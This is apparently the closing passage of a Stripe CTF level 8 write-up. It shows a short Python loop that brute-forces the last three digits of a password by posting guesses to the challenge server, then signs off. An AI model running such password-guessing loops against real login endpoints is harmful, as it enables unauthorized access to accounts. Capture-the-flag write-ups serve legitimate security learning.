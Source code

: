 ``` python
In [14]: for i in range(1000):   
....:     guess = str(i).zfill(3)
....:     r = requests.post("https://level08-1.stripe-ctf.com/user-umqrrcvswp/",data ='{"password": "350080833' + guess + '", "webhooks": []}')
....:     print "Tried:", guess   
....:     if r.text.strip() == '{"success": true}':   
....:         print "Got it: ", guess   
....:         break
```

The End
-------
And there you have it.

![The End](/assets/images/stripe-ctf/the-end.png)
